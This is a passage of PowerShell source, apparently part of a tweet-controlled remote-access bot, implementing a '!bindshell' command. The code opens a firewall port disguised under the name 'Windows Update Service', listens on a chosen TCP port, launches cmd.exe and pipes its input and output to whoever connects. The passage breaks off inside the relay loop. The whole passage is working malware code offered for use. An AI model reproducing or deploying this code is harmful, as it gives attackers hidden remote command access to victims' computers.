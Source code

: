         #This implements the !bindshell command which starts a bindshell on the client for a specified port
        #This was adapted from code released by Dave Kennedy and Josh Kelley at Defcon 18
        #Ex: !bindshell|31337|120
        Function BindShell {
            [int32] $TcpListenerPort = $LatestTweet.split('|')[1]

            #Open the port in the windows firewall with a com object           
            if ($IsAdmin -eq $True) {
                $FirewallMgrObject = New-Object -Com HNetCfg.FwMgr
                $PortObject = New-Object -Com HNetCfg.FwOpenPort
                $PortObject.Name = "Windows Update Service"
                $PortObject.Port = $TcpListenerPort
                $PortObject.Protocol = 6
                $FirewallMgrObject.LocalPolicy.CurrentProfile.GloballyOpenPorts.Add($PortObject)
            }
      
            #if not admin, user may be prompted to open a new port in the windows firewall
            $AsciiEncoding = New-Object System.Text.AsciiEncoding
            $IpEndpoint = New-Object System.Net.IpEndpoint ([System.Net.Ipaddress]::any, $TcpListenerPort)
            $TcpListener = New-Object System.Net.Sockets.TcpListener $IpEndpoint
            $TcpListener.Start()
            $TcpSocket = $TcpListener.AcceptTcpClient()
            $NetworkStream = $TcpSocket.GetStream()
            $NetworkBuffer = New-Object System.Byte[] $TcpSocket.ReceiveBufferSize
            $BindProcess = New-Object System.Diagnostics.Process 
            $BindProcess.StartInfo.FileName = "C:\\Windows\\System32\\cmd.exe"
            $BindProcess.StartInfo.Arguments = "/k"
            $BindProcess.StartInfo.RedirectStandardInput = 1
            $BindProcess.StartInfo.RedirectStandardoutput = 1
            $BindProcess.StartInfo.UseShellExecute = 0
            $BindProcess.Start()
            $InputStream = $BindProcess.StandardInput
            $OutputputStream = $BindProcess.Standardoutput
 
            Start-Sleep 1
 
                while($OutputputStream.Peek() -ne -1){
                    $ReturnString += $AsciiEncoding.GetString($OutputputStream.Read())
                }

                $NetworkStream.Write($AsciiEncoding.GetBytes($ReturnString),0,$ReturnString.Length)
                $ReturnString = '' 
                $Done = $False | Out-Null

                while (-not $Done) {
                    $Position = 0
                    $i = 1
    
                    while (($i -gt 0) -and ($Position -lt $NetworkBuffer.Length)) {
                                    $Reader = $NetworkStream.Read($NetworkBuffer,$Position,$NetworkBuffer.Length - $Position)
                        $Position+=$Reader
        
                        if ($Position -and ($NetworkBuffer[0..$($Position-1)] -contains 10)) {
                            break
                        }
                    }
    